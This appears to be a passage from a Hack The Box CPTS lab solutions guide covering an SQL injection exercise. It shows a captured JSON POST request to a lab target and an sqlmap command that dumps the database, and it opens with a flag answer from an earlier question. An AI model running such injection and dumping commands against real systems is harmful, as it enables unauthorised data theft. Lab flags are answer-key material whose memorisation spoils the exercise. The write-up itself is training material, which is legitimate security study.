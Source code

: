 Answer: `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`

# Running SQLMap on an HTTP Request

## Question 3

### "What's the contents of table flag4? (Case #4)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #4" to notice that they need to exploit the JSON value `id`:

![[HTB Solutions/CPTS/z. images/914a97560173f5da52e8cb7d73f41f20_MD5.jpg]]

Here, students need to intercept the request being sent so that they can use it with `sqlmap`; to intercept the request, students can either use an intercepting proxy (such as `BurpSuite`) or, the Web Developer Tools of the browser. To do so with the latter, students first need to open the Network Tab (`Ctrl` + `Shift` + `E` for Windows or `Cmd` + `Opt` + `E` for Mac) then refresh the page to notice the `POST` request to "case4.php". Students need to click on it, then, on the right side scroll down until "Request Headers" and switch to "Raw" to copy the request headers (and save them into a file):

![[HTB Solutions/CPTS/z. images/7e838ec1796569ef87d684919ae7f8c4_MD5.jpg]]

Then, students need to click on "Request", switch on "Raw", and copy the data so that it can be appended after the request headers:

![[HTB Solutions/CPTS/z. images/b7e0c2acf4590d5282c8c82d2e168606_MD5.jpg]]

The final request will look like the following:

```
POST /case4.php HTTP/1.1
Host: 206.189.24.232:30991
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 8
Origin: http://206.189.24.232:30991
DNT: 1
Connection: keep-alive
Referer: http://206.189.24.232:30991/case4.php
Sec-GPC: 1

{"id":1}
```

Now that the request is saved in a file, students need to provide it to `sqlmap`:

Code: shell

```shell
sqlmap -r req.txt --batch --dump
```
